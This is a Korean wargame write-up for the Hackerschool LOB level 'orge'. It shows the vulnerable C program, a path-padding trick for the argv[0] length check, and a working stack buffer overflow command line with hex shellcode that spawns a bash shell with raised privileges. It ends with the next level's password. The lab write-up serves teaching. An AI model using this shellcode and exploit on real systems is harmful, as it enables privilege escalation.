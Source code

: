 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL7 (darkelf -> orge) : check argv[0]"
date: 2015-11-08 16:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = darkelf 
- pw = kernel crashed 

<!--more-->

## orge.c

이번 문제는 `argv[0]`인 실행 명령어가 `77` 자가 되어야 한다.  실행 명령어는 `orge` 이기 때문에 이를 `77`가 되도록 해야한다.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }


        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}              
```

실행 명령어를 77자로 만들기 위하여  상대 경로를 이용하여 `./dir/../` 형식으로 글자수를 맞추면 되지 않을까 ?

```bash
> mkdir `python -c 'print "A"*67'` 
> ./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/../orge AAAA
stack is still your friend. 
```

그런데, 이상한 것은 직접 실행을 할때에는 명령어 길이 조건 체크를 넘어갔는데, gdb 붙여서 디버깅을 하면 자꾸 너무 길게 나오는 것이다.  좀더 자세하게 보니깐 gdb 에서 상대경로로 실행을 하였으나 절대경로로 입력이 되어 아래와 같이 path 가 잡혀서 77자를 넘어가는 것이었다.

그래서 항상 **변하지 않도록 절대 path 를 사용해서 77자가 되도록 한 후** gdb 로 디버깅을 해보자.

## Exploit

버퍼 사이즈가 40bytes 인데 마지막에 버퍼를 0으로 set 하기 때문에 실제 shellcode 는 argv[2]에서 세팅을 하고, argv[1]에서는 shellcode 를 가르키도록 `LR`을 설정하여 공격하자.

```bash
   [BUFFER 40bytes][SFP][LR]
= [A 44bytes][LR]  [NOP][ShellCode]

$ /home/darkelf/CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC/../orge  `python -c 'print "A"*44 + "\x94\xfb\xff\xbf"'`  `python -c 'print "\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage7.png)

```bash
$ /home/darkelf/CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC/../orge  `python -c 'print "A"*44 + "\x94\xfb\xff\xbf"'`  `python -c 'print "\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                             bash: /home/darkelf/.bashrc: Permission denied
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
```

## Next stage

```bash
> bash$ my-pass
euid = 507
timewalker
```
